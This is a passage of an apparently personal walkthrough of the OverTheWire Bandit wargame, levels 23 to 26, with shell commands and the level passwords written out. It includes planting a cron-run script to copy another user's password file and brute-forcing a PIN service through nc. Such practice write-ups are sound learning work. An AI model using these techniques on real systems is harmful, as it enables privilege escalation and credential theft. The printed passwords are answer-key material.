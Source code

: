 password: `jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n`

## Level 23 to Level 24
Following the hints again:

```bash
less /etc/cron.d/cronjob_bandit24 # tells us to look at /usr/bin/cronjob_bandit24.sh
less /usr/bin/cronjob_bandit24.sh # the hint tells us what this does, but basically it will run a script we create in /var/spool/bandit24
```

Let's create the following:

```bash
mkdir /tmp/graeme24_test/
touch /tmp/graeme24_test/pass24.txt
chmod 777 /tmp/graeme24_test/pass24.txt
echo "cat /etc/bandit_pass/bandit24 > /tmp/graeme24_test/pass24.txt" > /var/spool/bandit24/bandit24.sh
chmod 777 /var/spool/bandit24/bandit24.sh
```

Then we need to wait a minute for the cron job to run, and we can collect our password: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

## Level 24 to Level 25
Time to write our first fully-fledged shell script. I had to do a little googling and reading to come up with this. First, I had four deeply nested four loops to output the pin (i.e. for i, for j, for k, for l... echo <password> $i$j$k$l. Pretty dumb.). Then, I found out you can pipe the results from a `for` loop in to `nc`. So I got the following:

```bash
for i in {0000..9999}; do
   echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done | nc localhost 30002
```

This outputs a TON of garbage though, so a better solution would be
```bash
for i in {0000..9999}; do
   echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done | nc localhost 30002 | grep -v Wrong
```
The `-v` flag on `grep` is pretty awesome, and I learned about it on this exercise. In our example, it returns everything that DOESN'T match `Wrong`. Cool.

password: `uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`

## Level 25 to Level 26
To be honest, I really struggled with this one. Follow [this very helpful guide](https://medium.com/@coturnix97/overthewires-bandit-25-26-shell-355d78fd2f4d)... in fact, once I got into vim, the password for bandit26 wasn't even displayed so I'm not sure if there's a bug on my side or if something else is wrong?

